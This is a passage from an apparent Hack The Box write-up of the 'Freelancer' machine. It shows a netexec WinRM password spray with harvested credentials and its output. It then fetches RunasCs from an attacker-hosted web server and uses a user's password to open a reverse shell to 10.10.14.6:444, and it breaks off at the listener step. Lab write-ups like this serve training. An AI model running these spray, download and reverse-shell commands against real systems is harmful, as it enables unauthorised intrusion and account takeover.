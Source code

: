 Unfortunately, no hits on WinRM:

```

oxdf@hacky$ netexec winrm freelancer.htb -u users -p passwords --continue-on-success
WINRM       10.10.11.5      5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:freelancer.htb)
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\administrator:IL0v3ErenY3ager
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\lkazanof:IL0v3ErenY3ager
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\lorra199:IL0v3ErenY3ager
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\MSSQLSERVER:IL0v3ErenY3ager
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\sqlbackupoperator:IL0v3ErenY3ager
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\sql_svc:IL0v3ErenY3ager
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\administrator:t3mp0r@ryS@PWD
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\lkazanof:t3mp0r@ryS@PWD
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\lorra199:t3mp0r@ryS@PWD
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\mikasaAckerman:t3mp0r@ryS@PWD
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\MSSQLSERVER:t3mp0r@ryS@PWD
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\sqlbackupoperator:t3mp0r@ryS@PWD
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\sql_svc:t3mp0r@ryS@PWD

```

### RunasCs

I’ll grab a copy of [RunasCs](https://github.com/antonioCoco/RunasCs) from GitHub and host it on a Python webserver. I’ll fetch it with PowerShell:

```

PS C:\programdata> curl 10.10.14.6/RunasCs.exe -outfile RunasCs.exe

```

Now I’ll run it to get a reverse shell:

```

PS C:\programdata> .\RunasCs.exe mikasaAckerman "IL0v3ErenY3ager" -d freelancer.htb cmd -r 10.10.14.6:444

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-43538$\Default
[+] Async process 'C:\WINDOWS\system32\cmd.exe' with pid 524 created in background.

```

At `nc`:
